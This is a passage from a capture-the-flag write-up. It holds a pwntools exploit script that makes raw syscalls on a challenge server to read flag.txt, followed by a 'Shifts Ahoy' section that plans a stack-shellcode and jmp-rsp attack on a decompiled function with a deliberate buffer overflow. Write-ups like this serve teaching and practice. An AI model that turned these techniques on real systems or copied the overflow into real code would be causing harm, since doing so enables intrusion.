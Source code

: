 ```python
def main():
    global p
    #p = process('./saas')
    p = remote('jh2i.com', 50016)
    mem = sc(9, 0, 0x2000, 0x7, 34, 0, -1) # mmap
    print ('[+] Mem: 0x%X' % mem)
    sc(rax=0,rdi=0,rsi=mem,rdx=64,s='flag.txt\x00')
    fd = sc(rax=2,rdi=mem,rsi=0,rdx=0) # open O_RDONLY
    print('[+] fd = %d' % fd)
    sc(rax=0,rdi=fd,rsi=mem,rdx=64)
    print (sc(rax=1,rdi=2,rsi=mem,rdx=64))
    p.interactive()
    
if __name__ == '__main__':
    main()
```

Flag: `flag{rax_rdi_rsi_radical_dude}` 

## Shifts Ahoy

First, I use `checksec`:

```bash
(env3) osboxes@osboxes:~/Desktop/nctf$ checksec shifts-ahoy
[*] '/home/osboxes/Desktop/nctf/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

There may be a `rwx` section, so I think the stack is executable. Knowing this, I will try to write a shellcode on the stack, and then do the `jmp rsp` trick.

The `encrypt` function is vulnerable to bufferoverflow.

```c++
int encrypt()
{
  char s[72]; // [rsp+0h] [rbp-50h]
  int i; // [rsp+48h] [rbp-8h]
  int v3; // [rsp+4Ch] [rbp-4h]
    
  printf("Enter the message: ");
  fgets(s, 96, stdin);
  v3 = strlen(s);
  if ( v3 > 64 )
    v3 = 64;
  for ( i = 0; i < v3; ++i )
    s[i] += 13;
  return printf("\nEncrypted Message: %s\n", s);
}
```

